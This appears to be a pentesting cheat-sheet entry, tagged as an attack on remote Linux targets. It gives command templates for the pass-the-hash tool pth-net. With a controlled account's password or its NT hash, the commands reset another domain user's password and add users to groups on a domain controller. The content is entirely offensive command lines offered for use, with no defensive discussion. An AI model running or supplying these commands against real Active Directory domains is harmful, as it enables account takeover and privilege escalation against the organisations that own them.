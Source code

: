 # pth-net
#plateform/linux #target/remote #cat/ATTACK


## pth-net changing password
```
pth-net rpc Password '<TARGET_USER>' '<PASSWORD>' -U '<DOMAIN>'/'<CONTROLLED_USER>'%'<CONTROLLED_PASSWORD>' -S '<DOMAIN_CONTROLLER_IP>' 
```

## pth-net adding group
```
pth-net rpc group addmem '<GROUP_TO_ADD>' '<USER>' -U '<DOMAIN>'/'<CONTROLLED_USER>'%'<CONTROLLED_PASSWORD>' -S '<DOMAIN_CONTROLLER_IP>' 
```

## pth-net Adding a group member with hash
```
 pth-net rpc group addmem '<GROUP_TO_ADD>' '<USER>' -U '<DOMAIN>'/'<CONTROLLED_USER>'%'ffffffffffffffffffffffffffffffff':'<NT_HASH>' -S '<DOMAIN_CONTROLLER_IP>'
```

## pth-net changing password with hash
```
pth-net rpc Password <TARGET_USER> <NEW_PASSWORD_FOR_TARGET> -U <DOMAIN>/<CONTROLLED_USER>%ffffffffffffffffffffffffffffffff:<NT_HASH> -S <DOMAIN_CONTROLLER_IP>
```

